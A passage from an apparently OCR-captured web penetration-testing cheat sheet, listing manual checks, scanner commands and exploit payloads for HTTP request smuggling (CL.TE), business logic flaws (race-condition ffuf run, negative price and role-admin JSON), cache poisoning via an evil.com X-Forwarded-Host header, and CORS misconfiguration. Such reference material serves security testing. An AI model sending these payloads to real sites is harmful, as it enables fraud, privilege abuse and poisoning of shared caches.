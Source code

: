 **Exploit:**
```http
# CL.TE
POST / HTTP/1.1
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

## **BUSINESS LOGIC FLAWS**
*Present when: Application workflow can be manipulated for unintended outcomes*

**Manual:** Skip steps, negative values, race conditions, replay attacks
**Automated:**
```bash
# Race condition testing
ffuf -w numbers.txt -u target.com/transfer -X POST -d "amount=1000" -t 50
```

**Exploit:**
```json
{"price": -100}
{"quantity": -1}
{"role": "admin"}
```

##  **CACHE POISONING**
*Present when: Web caches store responses based on manipulable headers*

**Manual:** Modify Host header, X-Forwarded-Host, observe cached responses
**Automated:**
```bash
web-cache-vulnerability-scanner -u target.com
param-miner --target target.com
```

**Exploit:**
```http
GET / HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
```

## **CORS MISCONFIGURATION**
*Present when: Access-Control headers are overly permissive*

**Manual:** Check if Origin reflects in Access-Control-Allow-Origin
**Automated:**
```bash
corsy -u target.com
nuclei -u target.com -t cors/
```
